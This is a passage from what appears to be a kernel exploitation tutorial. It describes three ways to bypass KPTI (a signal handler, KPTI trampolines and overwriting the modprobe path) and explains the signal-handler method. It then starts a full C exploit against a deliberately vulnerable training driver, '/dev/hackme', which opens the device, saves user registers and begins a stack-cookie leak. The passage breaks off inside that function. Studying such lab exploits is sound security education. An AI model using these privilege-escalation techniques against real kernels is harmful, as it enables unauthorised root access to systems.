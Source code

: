```
```

I have read about three ways to bypass KPTI

- **Using a signal handler**: Here, a signal handler for the
  segmentation fault is registered that will execute the payload with
  root privileges.
- **KPTI Trampolines**: The kernel needs to contain a functionality
  for changing from kernel mode to user mode. This function called a
  KPTI trampoline is still mapped in memory, even when we are in user
  mode and hence can be  used to return to the user space, without our
  hacky `swapgs` and `iretq` gadgets.
- **Abusing modprobe**: The kernel has a reference to the path of the binary
  `modprobe`. Under some circumstances, the variable at this path is
  executed. If the path is overwritten, and the circumstances are
  achieved, then the file at the path is executed. This execution
  happens with kernel privileges.

## KPTI Bypass 1: Using a Signal Handler
This is probably the easiest way to circumvent KPTI.
Remember that if we execute the previous exploit, we get a
segmentation fault. We can register a signal handler that handles the
segmentation fault and executes the payload.
The segmentation fault occurs after the elevation of privileges, when
the switch back to user mode with `iretq` is performed. Hence, we only
need to prevent the process from crashing.
Instead of executing the payload, the registered function to handle
the segmentation fault could simply do nothing.

Adding a signal handler can be performed by including the line
`signal(SIGSEGV, payload);` within the `main` function. Further, we
need to include the respective headers using `#include <signal.h>`.

These are really the only changes that need to be made. But for
the sake of completeness here is the full code.

{% highlight C %}
#include <fcntl.h>
#include <stdbool.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <signal.h>


char *VULN_DRV = "/dev/hackme";

int64_t global_fd = 0;
uint64_t cookie = 0;
uint64_t cookie_off = 16;

uint64_t user_cs, user_ss, user_rflags, user_sp;     // for storing the registers

void open_dev(){
    global_fd = open(VULN_DRV, O_RDWR);
    if (global_fd < 0) {
        printf("[-] failed to open %s\n", VULN_DRV);
        exit(-1);
    } else {
        printf("[+] successfully opened %s\n", VULN_DRV);
    }
}

void leak_cookie() {
    uint8_t sz = 40;